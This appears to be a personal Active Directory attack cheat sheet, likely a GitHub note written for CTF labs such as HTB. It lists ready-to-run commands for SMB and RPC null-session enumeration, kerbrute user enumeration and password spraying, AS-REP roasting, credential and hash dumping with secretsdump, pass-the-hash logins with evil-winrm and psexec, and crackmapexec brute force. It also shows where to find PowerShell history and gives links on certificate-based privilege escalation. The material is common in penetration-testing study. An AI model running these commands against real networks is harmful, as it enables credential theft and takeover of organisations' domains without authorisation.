 # Active Directory? What to do?

**Adjust each command with the correct condition**

## list shares
`smbclient -L //[IP]`

## try anonymous login
`smbclient -N //[IP]/[sharename]`

## try null authentication
`smclient -U '' -N //[IP]/sharename`

## try with rpcclient (when got in just google rpcclient commands)
`rpcclient [ip]`

## try with rpcclient with null authentication
`rpcclient -U '' -N [IP]`

## enum more with enum4linux
`enum4linux -a [IP]`

## spray username or password with kerbrute
`~/scripts/kerbrute userenum --dc [IP] -d [domain-name] [user_list]`
`~/scripts/kerbrute bruteuser --dc [IP] -d [domain-name] [password_list] [username]`

## ASREPRoasting with GetNPUsers.py
`python3 ~/scripts/impacket/examples/GetNPUsers.py -dc-ip [IP] [domain-name]/[user] -no-pass`
and crack it

## login to smbclient if you have creds
`smbclient -L //[IP] --user=[user] --password [password]`

## access shares if you have creds
`smbclient //[IP]/[sharename] --user=[user]`

## enum basic info with rpcclient
`rpcclient [domain-name] -U [username]`
> enumdomusers
> enumdomgroups

## try to dump secrets of you have creds
`python3 ~/scripts/impacket/examples/secretsdump.py -target-ip [IP] [domain-name]/[full-username] -outputfile secretsdump.log`
or
`python3 ~/scripts/impacket/examples/secretsdump.py [options you want] [user]:[password]@[IP]`

## got NTLM hash? got password? got user? evil-winrm time
`evil-winrm -i [IP] -u [user] -H [NT hash]`
or just use the password if you got one

or just psexec
`python3 ~/scripts/impacket/examples/psexec.py [username]@[ip_address]`


## Try Bruteforce SMB with crackmapexec
`crackmapexec smb <MACHINE-IP> -u <username> -p <wordlist>`
ex: `crackmapexec smb 10.10.153.204 -u Jareth -p ~/wordlists/rockyou.txt`


## Dumping LM and NTLM when we have system.bak and sam.bak
`python3 ~/scripts/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL -outputfile hashes.txt`

## How to find SID
`whoami /all | Select-String -Pattern "[username]" -Context 2,0`

## Always check recycle bin (Even via commandline)
cd 'C:\$Recycle.bin\<SID>'
ex:
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'

## Check the powershell history (Ini ada di semua windows)
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

## Certify Privesc
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin)
- If can't, try PassTheCertificate (check your HTB Authority Medium)